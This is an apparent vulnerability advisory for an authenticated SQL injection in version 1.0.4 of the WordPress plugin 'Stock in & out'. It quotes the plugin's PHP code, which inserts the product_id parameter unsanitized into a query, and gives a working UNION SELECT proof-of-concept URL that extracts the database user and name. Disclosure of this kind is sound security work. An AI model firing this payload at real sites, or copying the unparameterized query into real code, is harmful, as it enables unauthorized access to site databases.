 # Vulnerability Info
## Vulnerability Type
Wordpress plugin Stock in & out Authenticated SQL Injection
## Vulnerability Version
1.0.4
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.
# Vulnerability Description AND recurrence:
The security issue is occured at file \wp-content\plugins\stock-in\includes\settings.php
```
 <?php
global $wpdb;
$author_id=get_current_user_id();
$stock_in_history=$wpdb->prefix.'stock_in_history';
/*if(isset($_GET['product_id'])){
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	WHERE product_id = $product_id ORDER BY id DESC");
}else{
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	ORDER BY id DESC");
}*/

if(isset($_GET['product_id'])){
$stock_in_log = "SELECT * FROM $stock_in_history WHERE product_id = $product_id";
}else{
$stock_in_log = "SELECT * FROM $stock_in_history";
}

$query = $stock_in_log;
 $total_query = "SELECT COUNT(1) FROM (${query}) AS combined_table";
    $total = $wpdb->get_var( $total_query );
    $items_per_page = 20;
	//$sort = isset( $_GET['sort'] ) ? 'DESC'	: 'ASC';
    $page = isset( $_GET['cpage'] ) ? abs((int)$_GET['cpage']) : 1;
    $offset = ( $page * $items_per_page ) - $items_per_page;
    $stock_in_log_by_page = $wpdb->get_results( $query . " ORDER BY ID ${sort} LIMIT ${offset}, ${items_per_page}" );

```
The parameter $_GET['product_id'] is derectly used by select statement. Then, we can exploit it .
http://www.target.com/wp-admin/admin.php?page=stock_in&product_id=0+union+select+1%2C2%2C3%2Cuser%28%29%2Cdatabase%28%29%2C6%2C7%2C8%2C9%2C10&tab=history

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_plugin_stockinandout_sqli.png "wordpress_plugin_stockinandout_sqli")
